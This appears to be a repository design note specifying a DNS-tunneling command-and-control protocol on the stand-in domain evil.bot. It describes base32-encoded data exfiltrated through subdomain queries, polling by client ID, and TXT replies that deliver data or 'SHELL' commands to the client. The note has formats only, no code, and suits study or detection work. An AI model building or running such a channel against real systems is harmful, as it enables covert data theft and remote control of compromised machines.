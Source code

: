 # Domain

evil.bot

# CLIENT -> SERVER

## ENCODING

- Data: Base32 in subdomain
  - The whole data block is one base32 String (minimum padding)
- Commands: Plaintext
- ClientID: Plaintext


### END OF MESSAGE

- 0.[...].evil.bot

## MESSAGE

### A
#### Request ID

- Polling ohne id
- requestid.evil.bot

#### Data
- send data to server

##### Head
- \<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
  - optional: body request signals end of head

#### Body

- \<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot

### TXT

#### Poll

- polling
- poll.\<ClientID>.evil.bot

#### Continue

- continue data transmission
- continue.\<ClientID>.evil.bot

#### Curl

- curl a webpage
- 0.\<base32>\<webpage>.[...].\<base32>\<webpage>.curl.\<ClientID>.evil.bot


## SEQUENCE DIAGRAM


# SERVER -> CLIENT

## ENCODING

## RESPONSES

### A

#### Request ID

- 10.\<random>.\<random>.\<ClientID>

#### Data

- \<random != 10>.\<random>.\<random>.\<random>

### TXT

#### Poll

##### Noting

- empty string

##### Data

- DATA\<space>\<data>

##### shell command

- SHELL\<space>\<command>


#### Continue

##### Noting

- empty string

##### Data

- \<data>

##### shell command

- \<command>

## SEQUENCE DIAGRAM